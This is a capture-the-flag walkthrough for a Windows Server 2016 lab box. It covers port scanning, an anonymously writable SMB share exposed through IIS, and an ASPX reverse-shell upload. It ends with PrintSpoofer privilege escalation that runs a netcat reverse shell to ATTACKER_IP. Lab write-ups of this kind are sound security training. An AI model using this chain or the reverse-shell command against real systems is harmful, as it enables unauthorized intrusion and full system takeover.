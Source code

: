 # Revelant CTF

## Enumeration

### Network enumeration

| PORT           | STATE SERVICE | VERSION                                   |                                                            |
|----------------|---------------|-------------------------------------------|------------------------------------------------------------|
| 80/tcp         | open          | http                                      | Microsoft IIS httpd 10.0                                   |
| 135/tcp        | open          | msrpc                                     | Microsoft Windows RPC                                      |
| 139/tcp        | open          | netbios-ssn                               | Microsoft Windows netbios-ssn                              |
| 445/tcp        | open          | microsoft-ds                              | Windows Server 2016 Standard Evaluation 14393 microsoft-ds |
| 3389/tcp       | open          | ms-wbt-server Microsoft Terminal Services |                                                            |
| 49663/tcp open | http          | Microsoft IIS httpd 10.0                  |                                                            |
| 49667/tcp open | msrpc         | Microsoft Windows RPC                     |                                                            |
| 49669/tcp open | msrpc         | Microsoft Windows RPC                     |                                                            |

### SMB Shares

> smbclient -L //IP/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      

The /nt4wrksv is accessible with anonmyous access :<br>
> smbclient //IP/nt4wrksv

Once connected, we can see the text file : passwords.txt<br>
Containing a two pairs of creds but encoded in base64.<br>

Note : The SMB share is writeable, so maybe we can access the data on it somewhere like on a web server<br>

### WEB 

I will use gobuster to enumerate webservers<br>
And i will append the nt4wrksv to the wordlist I use in case it is a web endpoint to.<br>
> gobuster dir -u IP -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt<br>

Nothing is found.<br>

There is another web server running on the port 49663.<br>
Let's use the same command but with the port specified.<br>
We found the /nt4wrksv<br>
And we can access the passwords.txt file<br>

Since it's a IIS server, we can try to upload an aspx reverse shell.<br>
Like this one : https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx<br>

Modify the shell with your IP/PORT, set up a listener, and upload the shell using the SMB share.<br>

http://10.10.226.109:49663/nt4wrksv/ 
Is linked to the /nt4wrksv smb share

SMB SHARE anonymously writeable

ASPX reverse shell
https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

Then start the reverse shell by accessing to : http://IP:49663/shell.aspx<br>
We are now connected to the victim.<br>

## Privesc

When logged to the webserver account, we can check the privileges that we have :<br>
> whoami /priv

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

The SeImpersonatePrivilege seems interesting, it may allow us to impersonate an administrator token to get elevated privileges.<br>
You can read more about impersonation :<br>
https://steflan-security.com/linux-privilege-escalation-token-impersonation/<br>
https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/<br>

Let's see what the version of windows is running :<br>
> systeminfo

Microsoft Windows Server 2016 Standard Evaluation<br>
 
We will try to use the SeImpersonatePrivilege to impersonate an administrator token.<br>
Let's use the PrintSpoofer vulnerability :<br>
https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe<br>
For this, we need to be in a local service account, and we are<br>

We will need multiple things :<br> 
PrintSpoofer.exe : The app that will exploit the ImpersonatePrivilege<br>
nc64.exe : a netcat binary for windows to make a reverse shell<br>

Download these binaries online like here :<br>
PrintSpoofer.exe : https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe<br>
nc64 : https://github.com/int0x33/nc.exe/raw/master/nc64.exe<br>

Then upload them using the SMB Share.<br>
Since the SMB Share can be accessed on the webserver, we can retrieve theses files in the webserver directory<br>
At : C:\inetpub\wwwroot\nt4wrksv<br>

Setup a netcat listener and your attacker machine<br>
And start the PrintSpoofer exploit using : <br>
> PrintSpoofer.exe -c "nc64.exe ATTACKER_IP ATTACKER_PORT -e cmd"

You must get a reverse shell with elevated privilege<br>
